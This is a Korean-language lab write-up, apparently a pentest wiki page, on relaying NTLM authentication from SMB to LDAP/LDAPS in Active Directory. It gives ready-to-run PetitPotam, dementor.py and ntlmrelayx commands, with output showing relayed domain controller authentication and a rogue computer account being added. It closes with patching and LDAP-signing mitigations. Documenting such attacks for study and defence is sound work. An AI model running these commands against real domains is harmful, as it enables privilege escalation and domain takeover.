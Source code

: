 # SMB to LDAP/S

강제 인증, LLMNR/NBT-NS 기반의 NTLM 릴레이 공격은 피해자 서버로부터 SMB 인증 트래픽을 받아 타겟 서버의 LDAP 서비스로 릴레이 한다. 이때 공격자는 액티브 디렉토리의 LDAP 정보 덤프, 컴퓨터 계정 추가, Delegation 등을 통한 권한 상승 공격을 진행할 수 있다.&#x20;

단, SMB to SMB 에 비해 SMB to LDAP(S) 는 필요 조건들이 더 많다. 따라서 webdav, mitm6, 혹은 wpad 릴레이를 통한 HTTP to LDAP(S) 가 더 자주 사용되는 편이다. 그러나 SMB to LDAP(S) 또한 공격에 성공할 경우 도메인 진입 혹은 도메인 장악이 가능하기 때문에 주의가 필요하다.&#x20;

### 조건&#x20;

* NTLMv2 SMB -> LDAP: 타겟이 CVE-2019-1040에 취약 + LDAP Signing - Enabled/Disabled (Required 면 불가능)&#x20;
* NTLMv2 SMB -> LDAPS:  타겟이 CVE-2019-1040에 취약 + EPA Disabled (LDAP Signing 은 enabled/disabled/required 상관 없이  가능)&#x20;
* NTLMv1 SMB -> LDAP: LDAP Signing Enabled/Disabled (Required 면  불가능). 타겟이 CVE-2019-1040에 취약하지 않더라도 `--remove-MIC` 로 MIC 필드 제거 가능.&#x20;
* NTLMv1 SMB -> LDAPS: 조건 없음, 가능. 타겟이 CVE-2019-1040에 취약하지 않더라도 `--remove-MIC` 로 MIC 필드 제거 가능.&#x20;



### NTLMv2 SMB -> LDAP(S)&#x20;

#### 트리거 - 강제 인증 - Petitpotam&#x20;

```
python3 PetitPotam.py -u '' -p '' 192.168.40.132 192.168.40.150
```

#### 트리거- LLMNR/NBT-NS 포이즈닝&#x20;

이론상 가능하지만 현재 테스트 랩에서는 불가능하다. 추후 더 연구해봐야겠다.&#x20;

#### 릴레이 - CVE-2019-1040에  취약할 경우

```
impacket-ntlmrelayx -t ldap://192.168.40.160 -smb2support --add-computer --no-dump --no-da --no-acl --no-validate-privs --remove-mic

[*] SMBD-Thread-5 (process_request_thread): Received connection from 192.168.40.150, attacking target ldap://192.168.40.160
[*] Authenticating against ldap://192.168.40.160 as CHOI/DC01$ SUCCEED
[*] Adding new computer with username: UAZZYGGM$ and password: lEE_wdrh2JD7T!M result: OK
```



### NTLMv1 SMB -> LDAP(S)&#x20;

#### 트리거 - 강제 인증 - Print Spooler&#x20;

```
python3 dementor.py -u low -p 'Password123!' -d choi.local 192.168.40.132 192.168.40.150
```

#### 트리거 - LLMNR/NBT-NS 포이즈닝&#x20;

이론상 가능하지만 현재 테스트 랩에서는 불가능하다. 추후 더 연구해봐야겠다.&#x20;

#### 릴레이&#x20;

<pre><code>./ntlmrelayx.py -t ldap://192.168.40.160 -smb2support --no-dump --no-da --no-acl --no-validate-privs --remove-mic
<strong>
</strong><strong>[*] SMBD-Thread-5 (process_request_thread): Received connection from 192.168.40.150, attacking target ldap://192.168.40.160
</strong>[*] Authenticating against ldap://192.168.40.160 as / SUCCEED</code></pre>



### 대응 방안&#x20;

1. NTLMv2 - CVE-2019-1040 관련된 패치를 진행한다. 이는 도메인 컨트롤러들의 기본적인 윈도우 패치만 실행하더라도 패치되는 취약점이다.&#x20;
2. NTLMv2 - LDAP Signing 을 Required 로 설정한다. GPO 를 이용하는 것이 좋다.&#x20;

`(Default Domain Controller Policy 혹은 GPO`) `> Computer Configuration > Policies > Windows Settings > Security Settings > Local Policies >  Security Options > Domain controller: LDAP server signing requirement` - REQUIRED 로 설정&#x20;

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>
